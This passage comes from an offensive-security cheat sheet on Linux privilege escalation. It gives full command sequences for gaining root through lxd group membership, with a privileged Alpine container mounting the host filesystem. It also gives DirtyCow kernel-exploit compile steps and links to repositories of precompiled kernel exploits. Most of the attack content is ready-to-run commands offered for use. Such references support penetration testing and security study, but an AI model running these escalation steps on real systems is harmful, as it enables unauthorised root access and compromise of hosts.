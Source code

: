 ### LXC/LXD

The privesc requires to run a container with elevated privileges and mount the host filesystem inside.

```powershell
╭─swissky@lab ~  
╰─$ id
uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)
```

Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```powershell
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Alternatively https://github.com/initstring/lxd_root

## Kernel Exploits

Precompiled exploits can be found inside these repositories, run them at your own risk !
* [bin-sploits - @offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)
* [kernel-exploits - @lucyoa](https://github.com/lucyoa/kernel-exploits/)

The following exploits are known to work well.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```powershell
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```
